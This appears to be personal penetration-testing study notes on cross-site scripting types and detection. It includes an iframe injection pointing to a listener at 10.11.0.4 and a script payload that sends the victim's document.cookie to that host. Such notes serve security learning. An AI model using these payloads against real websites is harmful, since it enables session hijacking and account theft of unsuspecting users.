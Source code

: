 # XSS

**Stored XSS:** 
Stored in a database or cached by server. Usually in comments section or product reviews. Affects all users.  

**Reflected XSS:** Payload in a link or or crafted request. Affects targetted user submitting request or viewing link. Occurs in search fields and results, as well as anywhere user input is included in error messages.

**DOM XSS:** Difficult to detect from server side tools. Works by modifying the DOM environment in the victim’s browser used by the original client side script, so that the client side code runs in an unexpected manner.
Occurs when a browser parses the page’s content and inserted JavaScript is executed.

### How to identify
Browse the page and check for input. Then insert special chars and see if any return unfiltered.
	Common chars: `<>'"{};`
	
Html Encoding: `&lt;` is the character reference for `<` . If we can inject these into the page, browser wil treat them as elements.


### Basic XSS
Submit js-specific chars to see if they're removed or encoded.
Basic Test:  `<script>alert('XSS')</script>`


**Content Injection**  
Redirect a client by attaching an iframe, we can open a listener on port 80 and have the client connect to us.
```
<iframe	src=http://10.11.0.4/report	height=”0”	width=”0”></iframe>	
```

**Stealing cookies and Session Info**
The Secure flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in cleartext and captured over the network. 

The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

Payload: `<script>new	Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>`
Js reads the cookie value and appends it to an image url. Browser reads the tag and sends a request to our server with the cookie in the query